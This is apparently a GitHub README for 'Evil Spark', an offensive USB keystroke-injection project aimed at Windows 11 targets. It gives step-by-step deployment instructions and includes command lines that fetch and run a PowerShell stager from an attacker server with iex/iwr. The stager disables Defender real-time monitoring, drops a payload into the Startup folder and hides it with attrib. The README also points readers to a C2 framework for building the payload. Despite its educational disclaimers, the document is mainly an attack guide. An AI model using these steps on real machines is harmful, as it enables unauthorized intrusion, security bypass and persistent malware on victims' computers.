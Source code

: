 #Evil Spark 
![Evil Spark](https://github.com/MustafaCyb/Evil-Spark/blob/main/EvilSpark.png)
---

> **🔴 CRITICAL COMPATIBILITY NOTE:** The Digispark's automated keystrokes, particularly those designed for disabling security features via User Interface (UI) manipulation within the `Evil_Spark.ino` C++ sketch, are **specifically tailored for the Windows 11 interface.** This sequence may **NOT** function as expected on other Windows versions (e.g., Windows 10, Windows 8/7) or even different Windows 11 builds/localizations without significant modifications to the sketch's code. Users will likely need to adjust timings, the number of TAB key presses, arrow key navigation, and overall UI interaction logic.

**⚠️ DANGER: EXTREME WARNING ⚠️**
This project is developed for **educational and research purposes ONLY**. Unauthorized use of this tool on any system or network without explicit, prior, mutual, and written consent is **ILLEGAL** and **STRICTLY PROHIBITED**. The creators and contributors of Evil Spark assume **NO LIABILITY** and are **NOT RESPONSIBLE** for any misuse, damage, or legal consequences arising from the use or handling of this software. **USE AT YOUR OWN EXTREMIA PERIL AND RESPONSIBILITY.**

---

## 🚀 Project Overview
Evil Spark demonstrates a proof-of-concept (PoC) attack chain utilizing a Digispark-compatible USB device. This device emulates keyboard actions to automate tasks on a target Windows machine, leading to the download and execution of a custom payload with persistence. This project integrates:
* A Linux-based server setup script (`setup.sh`).
* A Digispark sketch (`Evil_Spark.ino`) written in C++. 
* A PowerShell script (`Starter.ps1`) for payload deployment and execution. 

This project is designed to help understand HID attacks, payload delivery mechanisms, and basic persistence techniques from a defensive perspective.

## 🔥 Key Features
* ✔️ Automated Keystroke Injection via Digispark (HID Attack).
* ✔️ Apache Server Setup Script (`setup.sh`) for hosting payloads.
* ✔️ PowerShell-based payload stager (`Starter.ps1`) for:
    * Attempting to disable Windows Defender. 
    * Downloading the main payload. 
    * Executing the payload. 
    * Achieving persistence via the Startup folder. 

## 🔗 Workflow At a Glance
![Workflow At a Glance](https://github.com/MustafaCyb/Evil-Spark/blob/main/Diagram.png)
1.  **💻 Attacker Setup:**
    * The `setup.sh` script configures an Apache server on Linux to host `Starter.ps1` and the `payload.exe`.
    * The `Evil_Spark.ino` (C++ sketch) ; is customized with the server's IP and uploaded to the Digispark device using the Arduino IDE.
2.  **🔌 Deployment:**
    * The programmed Evil Spark USB is plugged into the target Windows computer.
3.  **🤖 Automated Execution (Digispark):**
    * The Digispark emulates keyboard inputs. 
    * It attempts to disable Windows Defender through UI manipulation. 
    * It opens PowerShell (with attempted admin rights)  and commands it to download and execute `Starter.ps1` from the attacker's server. 
4.  **🎯 Payload Delivery & Persistence (`Starter.ps1`):**
    * `Starter.ps1` runs on the target machine. 
    * Downloads the main `payload.exe` (e.g., `ring.exe` as in the example script).
    * Saves the payload to the Windows Startup folder for persistence. 
    * Hides the payload file. 
    * Executes the payload. 

## ⚙️ Project Components

### 1. `setup.sh` (Bash Script)
* Automates Apache2 web server setup on Debian-based Linux.
* Updates packages, installs Apache2, and starts the service.
* Creates `/var/www/html/tools` for hosting files. [cite: 3]
* Moves `payload.exe` (or your chosen name) and `Starter.ps1` to the tools directory. [cite: 3]

### 2. `Evil_Spark.ino` (Digispark C++ Sketch)
* Arduino C++ code for ATtiny85 based Digispark-compatible devices. 
* Simulates keyboard inputs to perform the automated attack steps. 
* **Requires Arduino IDE for compilation and upload.** (Download from: [https://www.arduino.cc/en/software/](https://www.arduino.cc/en/software/))

### 3. `Starter.ps1` (PowerShell Script)
* PowerShell script executed on the target. 
* Attempts `Set-MpPreference -DisableRealtimeMonitoring $true`. 
* Downloads the main payload (e.g., `ring.exe`) to the Startup folder. 
* Hides the payload using `attrib +h +s`. 
* Executes the payload. 

### 4. `payload.exe` (Example: `ring.exe`)
* **THIS IS THE CORE PAYLOAD YOU MUST CREATE OR PROVIDE.**
* This project *does not* include a pre-made `payload.exe`.
* Functionality is user-defined (e.g., reverse shell, information gathering, etc.).
* **Payload Inspiration & Reference:** For creating a custom payload, particularly one in Go (which compiles to an `.exe`), you can study projects like **RingShell**. RingShell is a Go-based C2 framework and can serve as an excellent reference for understanding how such payloads are structured and deployed.
    * RingShell GitHub Repository: [https://github.com/MustafaAbdulazizHamza/RingShell/tree/main](https://github.com/MustafaAbdulazizHamza/RingShell/tree/main)

## 🛠️ Prerequisites & Tools
* 🐧 A Linux machine (Debian-based recommended for `setup.sh`) for the server.
* 🔌 Digispark ATtiny85 compatible USB board.
* 💻 **Arduino IDE:** Used to compile the C++ sketch (`.ino`) and upload it to the Digispark. 
    * Download: [https://www.arduino.cc/en/software/](https://www.arduino.cc/en/software/)
* 🎯 A Windows target machine for testing (**WITH EXPLICIT, PRIOR, WRITTEN CONSENT ONLY**).
* 👾 Your custom `payload.exe` (e.g., `ring.exe`).

## 🚀 Setup & Deployment Guide

### 1.  SERVER: Apache Setup (`setup.sh`)
1.  Place `setup.sh`, your `payload.exe` (e.g., `ring.exe`), and `Starter.ps1` in the same directory on your Linux server.
2.  Edit `setup.sh`:
    * Set `PAYLOAD="your_payload_name.exe"` (e.g., `PAYLOAD="ring.exe"`). [cite: 3]
    * Ensure `SHELL_SCRIPT="Starter.ps1"`. [cite: 3]
3.  Make `setup.sh` executable: `chmod +x setup.sh`.
4.  Run with sudo: `sudo ./setup.sh`.
5.  Note your server's IP address (the script attempts to display it).

### 2. TARGET SCRIPT: `Starter.ps1` Configuration
1.  Edit `Starter.ps1`.
2.  Update the URI in `Invoke-WebRequest` to point to your payload on your server:
    * Example: `Invoke-WebRequest -Uri "http://<YOUR_SERVER_IP>/tools/ring.exe" -OutFile $target` 
    * Replace `<YOUR_SERVER_IP>` and ensure `ring.exe` matches your payload filename.

### 3. DIGISPARK: `Evil_Spark.ino` Programming
1.  Open `Evil_Spark.ino` (your C++ sketch for the Digispark) in the **Arduino IDE**. 
2.  Modify the line that fetches `Starter.ps1` to include your server's IP:
    * Example: `DigiKeyboard.print("iex (iwr 'http://<YOUR_SERVER_IP>/tools/Starter.ps1')");` 
3.  In Arduino IDE:
    * Ensure Digispark board drivers/support are installed.
    * Select the correct Digispark board from the Tools menu.
    * Compile and Upload the sketch to your Digispark.

### 4. 💣 DEPLOYMENT
1.  Ensure your Apache server is running and accessible.
2.  Plug the programmed Evil Spark USB into the **consenting** target Windows machine.
3.  The Digispark will emulate keystrokes and initiate the programmed sequence. 

## ❗ Important Considerations & Limitations
* **UAC (User Account Control):** The `.ino` sketch attempts to handle UAC.  Its success varies based on target system settings.
* **Antivirus (AV) & EDR:** Basic attempts to disable Windows Defender [cite: 4, 5] are included. Modern AV/EDR solutions will likely detect and block these activities. This PoC is not designed for stealth.
* **Keyboard Layouts:** Keystroke emulation typically assumes a US QWERTY layout. Results may vary on different layouts.
* **Timings & Delays:** `DigiKeyboard.delay()` values in the `.ino` sketch are critical.  Adjust them based on target system responsiveness.
* **Network Connectivity:** The target PC needs HTTP (port 80) access to your server.
* **Payload Naming:** Ensure consistency in payload filenames across `setup.sh`, `Starter.ps1`, and your actual payload file.

## 📜 Ethical Conduct & Legal Disclaimer
Reiterating the initial warning: This project is **STRICTLY FOR EDUCATIONAL PURPOSES**. Understanding offensive security techniques is vital for building robust defenses. **DO NOT USE THIS TOOL OR ANY DERIVATIVE ON SYSTEMS OR NETWORKS WITHOUT EXPLICIT, WRITTEN PERMISSION.** Unauthorized system access is a serious crime.

## 📄 License
This project is shared for educational exploration. While no specific open-source license is formally attached, users are expected to adhere to the ethical guidelines and disclaimers stated herein. If you adapt or distribute this work, please maintain its educational context and include all original warnings and disclaimers.

---
*Happy (Ethical) Hacking!* 👨‍💻🔬
